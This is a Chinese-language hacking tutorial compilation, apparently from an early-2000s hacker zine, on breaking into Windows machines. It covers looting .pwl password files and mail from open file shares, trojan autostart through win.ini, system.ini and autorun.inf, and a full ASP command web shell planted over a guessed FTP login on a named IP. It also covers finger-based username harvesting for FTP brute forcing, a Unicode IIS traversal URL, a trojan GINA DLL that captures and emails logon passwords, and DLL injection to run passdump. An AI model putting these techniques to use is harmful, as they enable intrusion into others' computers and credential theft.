这时我们就可以进入对方的 `C:\Windows` 目录下，找其中以 `.pwl` 为后缀的文件，这里面放的就是对方计算机保存的上网密码和其他一些本地访问时保存下来的密码文件。我还要额外教大家一个小窍门：PWL 文件一般都是以用户名为文件名称的，但其图标为 Windows 的系统文件的图标，在对方 Windows 目录下非常不容易查找，我们都知道 Windows 目录下的文件数量是非常之多的。我们可以先在本地机装上一个 PWLTOOL，这个软件是目前我用过的最好的也是唯一的一个可以直接查看 PWL 文件中的内容的软件，其他在网上流行的看 PWL 文件的软件，由于考虑到安全性，都只可以看到本地的 PWL 文件中的密码。有人还曾以为只要把偷来的文件也放到自己的 Windows 目录下就可以，可实际上决非那么简单。不过现在可以用 PWLTOOL 这个软件，如果你是在本地第一次启动它，它会把所有 PWL 后缀的文件名的图标全都改成自己程序的图标，并设有关联启动。现在我们再进入对方共享的 Windows 目录下，马上点击鼠标右键，选择“按文件类型来排列”，这时所有的 PWL 文件就全都排在了一起并以醒目的图标让我们一眼就可以找到（如图 5）。


图 5

现在我们就可以直接选中这两个文件，用复制命令，然后粘贴到本地的硬盘。之后就可以用 PWLTOOL 来打开我们得到的 PWL 文件了，如果对方用户没有设开机密码的话，我们就可以直接查看文件中的上网密码和其他用户保存的密码了（如图 6）。


图 6

我曾经在一个公司的共享主机 PWL 文件里找到了他们公司网站的 FTP 密码，也就是说我可以凭着那个密码去直接黑了他们公司的网页，这是因为我们在 98 下用 IE 去访问 FTP 站点的时候，Windows 会把我们的连接密码记录下来的原因。另外还有一些文件也值得我们去看看，`C:\Windows\Cookies\index.dat` 这个文件记录了很多用户曾经访问过的网站地址和 cookie 的设定，我们可以通过这个文件直接分析出对方的上网爱好甚至是他在一些 BBS 上的密码，因为目前很多 BBS 都会在用户每次发言的时候把他的用户密码也当作是 URL 的一部分来提交给服务器上的 CGI 程序。我在第一次用记事本来查看我的这个文件的时候也惊讶地发现了我的 BBS 用户名和密码也都以明文保存在这个文件里。`C:\Windows\Favorites` 这个文件夹下面是对方 IE 的收藏夹，通过它我们可以轻松的知道对方上网的全部爱好。`C:\Windows\Application Data\Identities\3E690B40-97EA-11D4-967B-9117A21ED870\Microsoft\Outlook Express` 目录下则是对方 OE 程序最近所有收发邮件的存放地址，而且默认都是没有任何加密，我们可以轻松地用记事本来直接查看。如果你运气好，对方的 C 盘是完全共享的话，我们可以直接拷贝一个文件到 `C:\Windows\Start Menu\Programs\启动` 目录下，这样对方在下次开机启动的时候就会自动执行我们所指定的程序了。另外还有一些特别的程序漏洞我们也可以来用，比如对方是用 FOXMAIL 来收信的话，我们可以看看他的 FOXMAIL 目录下是否有 `FOXMAIL.INI` 这个文件，如果有也可以拷回来放到我们的 FOXMAIL 的文件夹里，这样就可以直接去看对方的信箱密码了，不过只对 2.1 版有效。当然，实际上你可以轻松的查看对方 C 盘上的所有文件。

现在，我们实际上是利用了文件共享进入了对方的计算机，现在我们只是可以查看对方的文件，但我们的权利大小却是不确定的。如果对方的共享权限设置成只读的话，我们响应的只可以对文件进行读取而不能改动或是新建任何文件，我们可以试着在对方目录下新建一个文件夹来确定自己的权限，如果新建成功则说明对方的共享设置的是完全，否则就是只读共享。有很多朋友都会问我怎么利用对方共享的这个漏洞在对方的计算机上执行一个程序，也就是种上一个木马之类的东西。我想说的是如果对方的 C 盘是完全共享的话，这个问题就非常简单了，我们可以直接去编辑对方主机上的 `C:\Windows\win.ini` 或是 `C:\Windows\system.ini` 这两个文件来做到，只要把我们要执行的程序的完整路径输入到上面的两个文件的相关处就可以了。（如图 7）


图 7

在 `C:\Windows` 的目录下的 `WIN.INI` 的文件中的特定项目可以做到：
```ini
[windows]
load=C:\muma.exe
```
将会在系统启动的时候自动加载 `C:\muma.exe` 这个程序。

### 3. SYSTEM.INI

在 `C:\Windows` 目录下的 `SYSTEM.INI` 文件中的 `SHELL=` 后面的指定项也会在自动加载：
```ini
[boot]
shell=Explorer.exe C:\muma.exe
```
将会在系统启动的时候自动加载 `C:\muma.exe` 这个程序。

注意：好像有人说过去改 `autoexec.bat` 这个文件也可以，但在实际过程中最好不要在这里抱太大希望，因为现在的木马程序大多是 Win32 的程序，而 `autoexec.bat` 是在 Windows 之前加载的，所以 Win32 的程序无法运行，对方计算机会在启动的时候出错，然后告诉用户非法启动一个 Win32 程序，这样非常容易暴露自己。

当然，现在完全共享自己 C 盘的傻瓜已经不多了，这时候我们也不要太难过，我们可以去试试对方其他盘的共享情况。实际上有很多人把自己的 C 盘设为只读而会把 D 盘、E 盘之类的设为完全共享，也就是说我们还有机会。我们可以先悄悄的上传一个木马文件，然后在对方的根目录下写一个 `autorun.inf` 文件，我们对这个文件可能都是比较熟悉的，在光盘里这个文件被使用的比较普遍，比如一个文件是：

```ini
[autorun]
OPEN=SETUP.EXE /AUTORUN
```

它的意思就是在双击这个硬盘图标的时候，默认的不是打开这个盘的根目录，而是执行根目录下的 `setup.exe` 这个文件。呵呵，说到这里大家都应该明白了，我们只要把一个文件放到对方一个完全共享盘的根目录下，然后制作一个 `autorun.inf` 文件，内容就是：

```ini
[autorun]
OPEN=muma.exe /AUTORUN
```

这样就可以了，下次对方双击图标进入的时候就会自动执行这程序，我们就达到了不改对方系统而实现自启动的目的了，当然对方也不会一点察觉都没有，因为他会发现他已经没办法靠双击硬盘图标进去浏览自己的硬盘文件了。

## 利用 ASP 的特殊功能来实现的木马和入侵

Windows 下传统意义上的木马都是一个独立的 EXE 程序，它们都需要单独开一个端口来实现监听远程的客户端，并且都会去改动系统注册表或是系统文件，用来保证每次开机的时候能启动自己的目的，所以很容易被人发现，而且一旦对方主机的管理员配置了防火墙，限制了主机开放的端口，则木马就会失效。典型的例子就是，如果你有机会去给一台主机种木马的话，最好先去 ping 一下对方的 IP 地址，如果你 ping 不通的话，劝你最好放弃，因为这说明对方主机肯定装了防火墙，所以对 ICMP 的报文不会回应。当然你的木马所开的端口也是非法端口，从而无法实现远程连接。其实对于 NT 下开启了 Web 服务的主机，我们可以去利用 ASP 的程序来实现一个简单的远程控制，这是由于 ASP 中的内置 FSO 组件可以用来实现文件的大部分操作，如果我们稍加利用就可以做出一个非常的小木马，可以用来在对方主机上实现各种文件操作，包括新建文本文件和目录，删除任意文件和目录，随意浏览对方主机所有硬盘上的文件，并且可以查看文本文件内容，还可以任意在对方主机上拷贝文件。

好了，现在我给大家介绍一个非常不错的现成的 ASP 管理程序，网辰在线网页维护系统 2.0，你可以来我的主页找到这套 ASP 的程序。既然已经有了测试程序，当然我们也还要找一个测试环境，用 LETMEIN 简单的找一会儿，就发现了一个目标。

我们用 `letmein 61.139.46.100 all g` 这个命令来对 61.139.46.100 这台主机进行一个简单的密码探测看看结果是什么（如图 1）：


图 1

不错，我们很快就发现了对方主机的用户里有一个用户名为 billing 的朋友，他的密码恰巧也是 billing。好了，我们这时候就可以用 FTP 连接上去看看对方的 FTP 目录是什么了。这里多讲一句，如果你还不是特别熟悉 FTP 的命令格式的话，就用一个图形界面的 FTP 工具好了，Windows 下自带的 FTP 工具实在是不太方便的，但其他很多高手的文章里偏偏都是用它的多，其实 CUTEFTP 就可以很好的满足我们的要求，而且最重要的是非常方便，来看看吧（如图 2）。


图 2

我们首先设置好我们的用户名和密码，还有 FTP 的主机地址，就可以直接连到对方主机里了。不错，我们的运气还可以，这个用户有一个可以用 Web 浏览的目录，也就是说非常符合我们的实验条件。快把我们准备好的几个 ASP 程序放过去吧，这时候我们就可以直接用鼠标把 ASP 程序给拽过去，是不是要比用命令行的格式快多了、轻松多了？等所有程序拷贝过去以后，我们就可以用 IE 浏览器去对方的主机来执行我们的 ASP 程序了。我们在地址栏里用 `http://61.139.46.100/index.asp` 来执行程序，首先这个 ASP 的管理程序会让我们输入一个密码来证明我们的身份，当然密码是我们直接在本地就设置好了的。这样可以保证其他人不会轻易利用我们辛苦种下的程序。然后我们就可以直接看到对方这台 NT4.0 上的目录列表情况了。好好看看，你会发现他做的非常像一个资源管理器，所以我们可以很轻松的上手（如图 3）。


图 3

我们可以利用编辑命令来查看对方主机上的文本文件，下面就是我来查看对方主机的 `C:\boot.ini` 这个文件的内容。当然也可以直接在这里更改文件的内容（如图 4）。


图 4

但是如果我们想要下载对方主机 Web 目录以外的文件如何来实现呢？其实也很简单，只要选中我们想要的文件，然后把它拷贝到对方主机上的 Web 目录下就可以了。但我们## 怎么确定对方主机 Web 目录的物理路径呢？

怎么确定对方主机 Web 目录的物理路径呢？呵呵，也很简单的。只要直接在 URL 后面加上一个 `.ida` 就可以看到了，好像这样子（如图 5）：


图 5

看到了对方的 Web 目录在 `d:\inetpub\billing\` 下。下面我们选中 `d:\chat2.zip` 这个文件，选择复制命令，然后填入我们要复制的目录 `d:\inetpub\billing\1998\` 下就可以了（如图 6）。


图 6

当命令成功执行后，浏览器就会返回下面的消息（如图 7）。


图 7

其实用这个程序可以做很多事情，而且操作都是非常简单的，稍微看看就可以学会。讲了这么多，实际上我们还有一个问题没有解决呢，就是对方的 Web 目录下并没有可执行的目录，如：`cgi-bin`。如果我们想要执行一个程序或是其他命令的话就不太方便的了，其实这个问题也困扰了我很久，直到最近的几篇文章的出现才解决了这个问题。下面把这个我已经编译好的 ASP 程序代码给大家看，利用这个程序我们可以非常轻松地在对方主机上运行任意命令，而且所有程序执行后的结果我们都可以看到！

```asp
<%@ Language=VBScript %>
<%
Dim oScript
Dim oScriptNet
Dim oFileSys, oFile
Dim szCMD, szTempFile
On Error Resume Next
' - - create the COM objects that we will be using - - '
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
' - - check for a command that we have posted - - '
szCMD = Request.Form(".CMD")
If szCMD <> "" Then
    ' - - Use a poor man's pipe ... a temp file - - '
    szTempFile = "C:\" & oFileSys.GetTempName
    Call oScript.Run "cmd.exe /c " & szCMD & " > " & szTempFile, 0, True
    Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0)
End If
%>
<HTML>
<BODY>
<FORM action="<%= Request.ServerVariables("URL") %>"> method="POST">
<input type=text name=".CMD" size=45 value="<%= szCMD %>">
<input type=submit value="Run">
</FORM>
<PRE>
<%
If IsObject(oFile) Then
    ' - - Read the output from our command and remove the temp file - - '
    On Error Resume Next
    Response.Write Server.HTMLEncode(oFile.ReadAll)
    oFile.Close
    Call oFileSys.DeleteFile(szTempFile, True)
End If
%>
</BODY>
</HTML>
```

现在让我们把这个 ASP 程序传到对方主机的 Web 目录下，取名为 `cmdasp.asp`，然后直接用浏览器来执行看看（如图 8）。


图 8

我们直接用 `dir` 这个命令来查看对方主机上的文件列表怎么样？吃了一惊吧？是不是非常方便呢？下面再来看看我们用 `net view` 命令查看对方所在局域网上的主机列表的结果（如图 9）。


图 9

最后嘛，当然是要把 SAM 拷下来研究了，我们直接用 `copy` 命令就可以了（如图 10）。


图 10

非常有意思的是：如果用我们刚才的那个 ASP 木马是无法拷贝这个 SAM 文件的，因为我们的权限不够，而我们用这个 ASP 程序却可以实现。

讲了这么多无非是向大家推荐另外一种木马。用 ASP 程序来帮助入侵是有很多好处的：首先它不用留在内存里，所以杀毒软件根本无法发现它；而且它应该可以绕过大部分防火墙的阻拦，因为我们是通过 80 端口这个合法的端口来实现我们的调用的，并没有开额外的端口出来。我们要做的就是找到一个有 Web 目录的用户密码，然后把我们的程序隐藏到对方目录下的一个文件里，方便以后我们随时调用，或者也可以在每次用后删除掉。毕竟这是一种非常隐蔽而且很有新意的入侵，不是吗？

## 用 finger 来实现的简单密码探测

暴力的密码破解的方法实际上就是傻傻的拿一个单词表一个一个去试别人的密码，这实在不能说什么高明的方法，现在应该没什么人用了吧？呵呵，其实一个暴力法的基础就是：我们应该有一个用户名，或者说最好有对方主机的用户列表。有了目标我们的暴力法才用得上。在 Win NT 下我们用小榕的流光就可以非常简单地获得对方主机的用户名单和管理员名单，在此基础上我们可以对照一本简单的字典去尝试登陆。也许你认为这样的机会太渺茫，可事实肯定会让你吃惊，我的一个朋友用了 5 个小时就扫到了 1400 多个台湾 NT 主机的密码，竟然还有很多管理员的密码是空或是 123456 这样简单的密码，你要是想黑他们简直是轻而易举的事情，难怪小榕曾经说过一天可以黑掉 1000 个站了。

但在 *nix 下，我们来实现这种攻击就不是很简单的了，在 *nix 目前还没有什么工具让我们可以直接得到对方的用户列表。好在我们还有一个工具 FINGER 可以用在 Win2000 里，它是一个 Win2000 自带的小工具，在 98 下是没有的。我们可以用 `finger @对方主机 IP` 的方法来获得对方主机当前的在线用户列表，虽然不是所有的用户列表，但是它的危害却是不小的。现在我们简单的去尝试一个提供 FINGER 命令的主机地址，来看看我们得到了什么结果（如图 1）。


看到没有，我们可以轻松的拿到这台主机的当前用户名和他们的实际的 IP 地址。碰巧这台主机的用户还非常的多，我们就可以进一步的把这些用户名做成一个 TXT 文件（如图 2），


图 2

用来做一个 FTP 暴力破解的用户列表。最重要是记得不要在用户名称后面有什么空格之类的额外动作，否则一会破解的时候就会很麻烦。

现在我们已经有了用户列表，还需要一个暴力破解的工具，这次我用的是国产的 FTPPASS，经过测试，它的性能和功能还不错，因为它是不多的支持多用户的破解工具，省了我们好多设置。我们现在首先选择用户名文件，然后为了省事，密码文件我用的也是用户列表（如图 3），


图 3

呵呵，就是简单的尝试用户名和密码相同的傻瓜。:)

开始破解不久后我们就得到了一个叫 2008 的用户的密码也是 2008（如图 4），


图 4

怎么样？第一个密码就这么简单的拿到了，剩下的就是我们进系统去看看有什么了。:)

对于 finger 其实还有一个让我们用上的东西，就是我们可以去查询远程主机一个指定的用户名是否合法存在。我们可以 TELNET 到对方主机的 79 端口，然后给出一个用户名，如果对方主机有这个用户就会返回给我们一个成功的提示，否则就会告诉我们对方主机没有这个用户（如图 5, 6, 7），我想现在大家还很少会用什么复杂的用户名吧？所以我们同样用穷举的方法来获得对方主机的一个用户列表，当然这并不可能是完整的，但毕竟让我们多了一点机会。不是吗？


图 5


图 6


图 7

## Unicode 应用扩展

文/Bytes

大家在用 Unicode 漏洞入侵的时候，经常会遇到像 `aaa bbb` 这种文件夹。这种文件夹怎么看呢？下面就由 Bytes 来告诉大家。声明本文不是介绍什么经典技术，所以高手止步。这种方法大家或许已经知道，言归正传。比如有如下几个文件夹：

- 1. aaa bbb
- 2. www sdx
- 3. sad fsd
- 4. aaa bbbda
- 5. saddd fdasfs

这五个文件夹。

1 号就用 `aaabbb~1` 代替，2 号就用 `wwwsdx~1` 代替，也就是 `http://www.chinawebfan.com/scripts/..%1c%c1../winnt/system32/cmd.exe /c + dir + c:\aaabbb~1`。没用的别试验。这么看，也可以说就是取文件夹名称前六个字符，然后在加“~1”或“~2”以此类推。比如 4 号和 1 号前六个字符相同，怎么办呢？别急，1 号是 `aaabbb~1`，4 号就是 `aaabbb~2`，这是以文件夹的前后顺序决定的。

## 成功入侵 NT 后获取其他用户密码的原理分析

远程入侵 Windows NT 系列系统，据我所知常用的手法有如下几种：

- <1> 通过与目标 NT Server 建立 IPC NULL Session 后，枚举、穷举系统账号，然后猜测简单密码，得到弱密码的可用普通账号后再做进一步攻击，或者是直接得到弱密码的管理员账号。关于这个在我的另一篇文章《Windows NT 系统账号安全攻防》中介绍得比较详细，这里就不多说了。
- <2> Windows 2000 的登录验证漏洞。终端服务。现在很多 Windows 2000 服务器都安装了终端服务，但是还有为数不少的服务器都是没有安装补丁的，而且受此漏洞影响的 Windows 2000 不止是简体中文版，任何版本只要安装了简体中文字体都会受影响。成功利用此漏洞可以直接得到 LOCAL_SYSTEM 权限。
- <3> 数据库入侵。在 Windows NT 平台上跑的数据库几乎都为 MS SQL Server，而 MS SQL Server 7.0 默认安装后，内置账号 sa 密码是为空的。现在的 SQL Server 2000 就好了一点了，在安装过程中会提醒你不推荐使用空密码。SQL Server 有个扩展存储过程 `xp_cmdshell`，调用这个存储过程就可以以启动 SQL Server 账号（通常是 LOCAL_SYSTEM）的身份执行任意命令了。
- <4> 利用 IIS 的漏洞。微软的 IIS 漏洞真是层出不穷，泄漏 ASP 源代码、Unicode、二次解码、ida 溢出、printer 溢出、ISAPI DLL 提升权限等等，每一个都是致命的。而且通过 IIS 漏洞获取了数据库的账号和密码后，就可以利用上面说的第三种方法来做一些问题了。
- <5> 利用 CGI 漏洞。有不少 CGI 程序员都是不注意安全的，例如把数据库账号和密码存放在 TXT、INC 文件里面，接收用户输入的变量不做严格过滤等等，这些都是非常危险的。
- <6> 利用其他漏洞入侵，如第三方提供的某些程序的漏洞等等。

以上各种入侵手法网上都有大量的资料，所以我就不废话了，只是简单的列举一下，加上我也没什么入侵的经验，只是没事自己瞎想罢了。

入侵成功后，我们通常都是添加一个系统管理员账号，或者把以前系统内置的、已有的某些账号激活，重置密码、加到管理员组，供自己使用（如激活 guest 账号）。但这些都是比较危险的，容易被管理员发现。个人认为，这个时候如果能获得系统已存在的账号的密码，那就比较方便了，以后就可以用别的用户的账号登录了。虽然这也不是很好的办法，但总比添加账号和重置某些账号的密码好很多，不是吗？

OK，那我们就来看看入侵成功后通常可以利用哪些办法来获取其他系统账号的密码。如果没有特别指出的话，以上和以下所说的入侵成功指的都是能以系统管理员身份执行命令。第一种方法，用 `pwdump` 把所有账号的加密过的密码 dump 出来，然后用 LophtCrack 暴力破解。这种方法地球人都知道，如果密码比较简单的话，花不了多少时间就可以得到密码明文。如果密码比较复杂的话，那就看运气了，说白了就是运气 + 时间。这个办法比较无聊，而且也不能直接得到用户密码的明文，不多说了。

第二种方法是用特洛伊 DLL 替换 MSGINA，在用户登录（从控制台登录或者是通过终端服务登录）过程中，获取用户明文密码。这种方法有很多人已经了如指掌，但也许还有一部分人还不是很了解，那我就班门弄斧，简单介绍一下 Windows 2000 的引导过程和 GINA。计算机有两个引导过程，先是它本身的引导，然后是操作系统的引导。在安装过程中，Windows 2000 的安装程序将数据写入了计算机主分区（引导分区）的第一个扇区中。这些数据就是“主引导记录 MBR”，它包含了 x86 计算机可执行的指令。除了可执行指令外，MBR 还有一个最多包含 4 个项目的表，它定义了主分区在磁盘上的位置。安装程序还把两个初始化 Windows 2000 引导序列的文件 `Ntldr` 和 `Ntdetect.com` 复制到引导驱动器的根目录下。同时文件 `boot.ini` 也放置在了引导驱动器的根目录下，该文件包含了启动选项。Windows 2000 操作系统引导过程分以下几步：

- <1> MBR 代码执行。在 BIOS 引导过程的最后一步，计算机将 MBR 读入内存，然后将控制权交给 MBR。MBR 中的可执行代码在分区上搜索分区表，查找一个标识了可引导标记的分区。找到第一个可引导分区后，它会读取该分区的第一个扇区，这就是引导扇区。
- <2> Windows 2000 启动文件执行。操作系统代码将 `Ntldr` 读入内存，启动操作系统的引导进程。`Ntldr` 包含了只读的 NTFS 和 FAT 代码，开始时，它只是在实模式下运行，它的第一个任务是将系统切换到保护模式。第一个保护模式的实例不能为硬件保护执行物理到虚拟的转换——这个功能只有在 Windows 2000 操作系统引导完成后才可用。这时候所有物理内存都是可用的，并且计算机作为一个 32 位的机器运行。然后 `Ntldr` 启用页面交换并创建页表。接着，它从根目录下读取 `boot.ini` 文件，并在显示器上显示引导选择菜单。
- <3> 引导选择菜单显示。引导选择菜单出现，显示计算机上可用的操作系统选项。也可能什么都不显示，如果你的机器上只安装了 Windows 2000 的话。
- <4> Ntdetect 启动。当用户在屏幕上的菜单选定了 Windows 2000 时，`Ntldr` 启动 `Ntdetect.com`。`Ntdetect.com` 从系统的 BIOS 中查询系统的设备和配置信息。Ntdetect 收集到的信息被发送到注册表中，并放在 `HKLM\Hardware\Description` 的子项中。
- <5> Ntoskrnl 运行和 HAL 加载。Ntdetect 执行完它的硬件检查后，把操作系统的引导进程交回给 `Ntldr`，`Ntldr` 启动 `Ntoskrnl.exe` 并加载 `hal.dll`。HAL 的英文 Hardware Abstract Layer 的缩写，意思是硬件抽象层。`Ntoskrnl.exe` 包含了内核和可执行子系统，这是 Windows NT 内核模式组件的核心文件。它包含了内核、可执行体、缓存管理器、内存管理器、调度程序、安全引用监视器等等。这是真正使 Windows 2000 运行的文件。为了使硬件和操作系统能够交互，`Ntoskrnl.exe` 需要 `hal.dll`，因为它包含允许硬件和操作系统交互的代码。
- <6> 驱动程序加载。现在，`Ntldr` 加载了底层的系统设备驱动程序，但服务还没有初始化。这里是引导过程的重点，从这里开始的过程称为加载过程。
- <7> 操作系统加载。操作系统开始加载操作系统，Windows 2000 内核被初始化，然后子系统被加载和初始化，以便提供完成加载操作系统任务的最基本的系统。前面被 `Ntldr` 加载的驱动程序现在被初始化，接着其余的驱动程序和服务被初始化。如果没有什么意外的话，那么 Windows 2000 内核和可执行系统现在就可以运行了。会话管理子系统 `smss.exe` 设置用户环境并且检查注册表中的信息，然后要求加载的驱动程序和软件被加载。内核加载 `kernel32.dll`、`gdi32.dll`、`user32.dll`，它们提供了客户程序要求的 win32 API。接着，win32 子系统执行下面任务：
  - A. 启动 `winlogon.exe`，它向屏幕发送登录对话框
  - B. 加载本地安全授权 `lsass.exe`
  - C. 启动 `services.exe`

好了，到这里操作系统就引导完毕，可以工作了，这时候 MSGINA 也已经加载了。登录进程的验证和身份验证都是在 GINA（GINA - Graphical Identification and Authentication 图形标识和身份验证）中实现的，微软的 GINA 是 `MSGINA.dll`，实现了默认的 Windows NT 登录界面。关于 Winlogon 登录管理和 GINA 的更详细的信息，bingle 在他的文章里面已经介绍得很详细了，我就不多说了。

`MSGINA.DLL` 中提供了 19 个 API，其中最先被登录进程调用的 API 是 `WlxNegotiate`。这个 API 的功能是登录进程与操作系统协商 GINA 版本号的。然后分别被调用的是 `WlxInitialize`、`WlxRemoveStatusMessage`、`WlxLoggedOutSAS`。当调用到 `WlxLoggedOutSAS` 的时候，登录对话框就出来，提示你输入用户名和密码。我们来看看 `WlxLoggedOutSAS` 的函数原型：

```c
int WlxLoggedOutSAS(
    PVOID pWlxContext,
    DWORD dwSasType,
    PLUID pAuthenticationId,
    PSID pLogonSid,
    PDWORD pdwOptions,
    PHANDLE phToken,
    PWLX_MPR_NOTIFY_INFO pNprNotifyInfo,
    PVOID * pProfile
);
```

倒数第二个参数是一个指向 `WLX_MPR_NOTIFY_INFO` 结构的指针，此结构的原型如下：

```c
typedef struct _WLX_MPR_NOTIFY_INFO {
    PWSTR pszUserName;
    PWSTR pszDomain;
    PWSTR pszPassword;
    PWSTR pszOldPassword;
} WLX_MPR_NOTIFY_INFO;
```

看见了吗？这正是我们感兴趣的东西。

我们可以来做一个特洛伊 DLL，这个 DLL 提供的 API 接口和 `MSGINA.DLL` 完全一样，然后让系统在启动过程中加载我们的 GINA，我们的 DLL 在接收到登录进程传递的参数后，把我们感兴趣的数据（如登录用户的账号和密码）保存下来，然后转发给真正的 GINA 就行了。关于特洛伊 DLL 的编写，在 SDK 中有例程，但上面的例程麻烦了一点，如果单纯为了获取用户输入的密码的话，我们可以做得更简单。SDK 中的例程挂接了所有的 API，但其实只要挂接 `WlxNegotiate` 和 `WlxLoggedOutSAS` 两个 API 就行了，其余的函数做函数转发就 OK 了。作函数转发，最简单的方法就是像下面这样使用一个 pragma 指令：

```c
#pragma comment(linker, "export WlxLoggedOnSAS=msgina.WlxLoggedOnSAS")
```

这个 pragma 告诉链接程序，被编译的 DLL 应该输出一个名叫 `WlxLoggedOnSAS` 的函数。但是 `WlxLoggedOnSAS` 函数的实现实际上位于另一个包含在 `msgina.dll` 模块中名为WlxLoggedOnSAS 的函数。每一个需要转发的函数都要创建一个单独的 pragma 代码行。我把 SDK 中的 GinaHook 稍微修改，如下：


把上述代码编译成 DLL 文件。别忘了创建一个 def 文件，输出 WlxNegotiate 和 WlxLoggedOutSAS 两个 API，修改注册表，让系统启动的时候不加载默认的 MSGINA，而是加载我们的 DLL。这样用户在登录过程中，我们就能获取他的账号和明文密码了。具体是在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 这个子项下面创建一个键值 GinaDLL，指向我们的 DLL，如果已经存在此键值，修改之。系统默认是没有这个键值的，此键值不存在，系统就默认加载 system32 下的 MSGINA.DLL，否则就加载 GinaDLL 键值指向的 DLL。

其实上述我们 GINA 编写的并不严密，没有保存现场和恢复现场，所以不具有通用性。在系统已经指定别的 GINA 的情况下，系统就会无法登录了。例如服务器在已经装 PcAnywhere 的情况下，那么 GinaDLL 已经被创建，并指向%SystemRoot%\System32\awgina.dll，这时候如果修改 GinaDLL 的值为指向我们的 GINA，那么 PcAnywhere 在启动的时候就会出错，导致系统蓝屏。

写的好的 GINA 应该这样，提供一个 EXE 程序和一个 DLL。EXE 程序负责保存现场和恢复现场。安装的时候，EXE 程序检查注册表中是否有 GinaDLL 键值。A. 如果没有的话，那么则认为系统默认加载的是%SystemRoot%\system32\msgina.dll，然后安装程序创建 GinaDLL 键值，指向我们的 GINA DLL，然后留下一个标志（通过文件或者注册表）告诉我们的 GINA DLL 原始 GINA 是 msgina.dll。

B. 如果有的话，那么则认为系统加载的是别的 GINA，取得 GinaDLL 的值，作为标志告诉我们的 GINA，修改 GinaDLL 指向我们的 GINA DLL。

当我们的 GINA DLL 被系统加载的时候，通过安装程序留下的标志判断该从哪个 DLL 中取得 GINA API 的地址，而不是固执地坚持从 MSGINA.DLL 取得 GINA API 的地址。这回我们可不能偷懒做函数转发，每个 GINA API 都得用 GetProcAddress 从原始 GINA DLL 中取得地址。这样做唯一不好的地方就是系统管理员查看注册表的时候，一眼就能发现了。当我们的 GINA DLL 获取了管理员的密码后，可以让它马上把用户名和密码 Email 到我们指定的信箱，然后运行前面所说的 EXE 程序，恢复现场。恢复现场所作的只是恢复 GinaDLL 的值，如果本来就没有的话，那么删除 GinaDLL 键值。然后删除我们留下的标志和 DLL 文件。

PcAnywhere 在安装的时候，就没有考虑到保存现场和恢复现场，所以如果安装 PcAnywhere 之前系统加载不是默认的 MSGINA.DLL 的话，那么就比较麻烦了。而且卸载 PcAnywhere 的时候，它好像也没有恢复现场，所以有时候会出现卸载 PcAnywhere 后系统就无法登录了。通常遇到这种情况，我们可以通过远程连接注册表来修改 GinaDLL，恢复系统。如果是单机的话，可以在系统启动的时候按 F8 进入高级模式，选择“安全模式-带命令行”登录，然后运行 regedit 来修复就行了。

第二种方法虽然能得到用户的明文密码，但比较被动，属于守株待兔那种。OK，我们来看看更直接的方法，直接获取已经在控制台登录的用户的明文密码。大家还记得孤独剑客前段时间发布的小程序 passdump 吗？运行这个程序可以把缓存中用户的密码读取出来。至于缓存中的是加密过的密码、读出来再解密，还是缓存中的就是明文密码，这我就不清楚了，我问过孤独剑客，他说是加密过的密码，他知道加密算法，所以解密也就是小事了。

不过运行这个程序限制比较多，得在控制台已登录用户的进程空间里面运行才能成功。现在我们假设如下：系统管理员 eyas 已经在控制台登录，入侵者通过某些手段已经攻破系统，添加了一个系统管理员账号 admin，现在我们的焦点是——如何获取管理员 eyas 的明文密码。通过终端服务用 admin 账号登录，直接运行 passdump？不行。通过 telnet 用 admin 连接，运行 passdump 不行。通过计划任务运行 passdump 不行。为什么都不行呢？因为上述做法 passdump 都不是在控制台登录用户 eyas 的进程空间运行，所以不能取得用户 eyas 在缓存中的密码。BTW，通过终端服务登录，运行 passdump 并不能取得自己在缓存中的密码，也许缓存中根本没有，具体情况我也不知道，我太菜：

如何让 passdump 程序在 eyas 的进程空间运行？有办法。

Windows 大多数函数允许进程只对自己进行操作，这是一个很好的特性，因为他能够防止一个进程破坏另一个进程的运行。但有些函数也允许一个进程对另一个进程进行操作。Windows 提供了一个 API 是 CreateRemoteThread，这使我们能够很轻松地在另外一个进程中创建一个线程。此函数原型如下：

```cpp
HANDLE CreateRemoteThread(
  HANDLE hProcess,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  SIZE_T dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID lpParameter,
  DWORD dwCreationFlags,
  LPDWORD lpThreadId
);
```

在别的进程里面创建线程的时候，如果直接提供线程代码的话，比较麻烦。比较简单的方法是让线程来加载我们的 DLL，这样程序编写就比较模块化了。幸好 LoadLibrary 函数的原型和一个线程函数的原型是相同的，但其实也并不完全相同，不过的确是非常相似。两个函数都接受单个参数，并且都返回一个值。我们所要做的就是创建一个新线程，并且使线程函数的地址为 LoadLibraryA 或 LoadLibraryW 函数的地址。

OK，这样的话，我们就需要一个 DLL，这个 DLL 所做的只是运行 passdump 程序，这样，当我们在 eyas 的进程空间里面创建一个线程，这个线程加载我们的 DLL，在 DLL 被加载的时候，passdump 就在 eyas 的进程空间里面运行了，我们也就能够得到 eyas 的明文密码。

OK，我们先来写一个简单的 DLL。

```cpp
BOOL __stdcall DllMain(HINSTANCE hLibInstance, DWORD dwReason, LPVOID lpvReserved)
{
    switch (dwReason)
    {
    case DLL_PROCESS_ATTACH:
        system("passdump.exe");
        break;
    default:
        break;
    }
    return TRUE;
}
```

这样，当调用 LoadLibrary 加载这个 DLL 的时候，就运行 passdump 程序。不过这样不好，加载这个 DLL 的时候会有控制台窗口弹出来。我们可以修改一下，改为调用 CreateProcess 函数来创建一个进程，这样我们可以设置某些属性，让程序运行的时候没有窗口。


嗯，DLL 已经准备好了，接下来要做的就是让 eyas 的进程加载我们这个 DLL 到他的进程空间里面去。程序代码如下：


上面这段代码只能往自己的进程里面插入 DLL，而没有权限往其他用户或者系统进程里面插入 DLL。这就需要提升权限了，一般来说只要给当前进程赋予 SE_DEBUG_NAME 特权就有权限插入了。提升权限的代码如下：


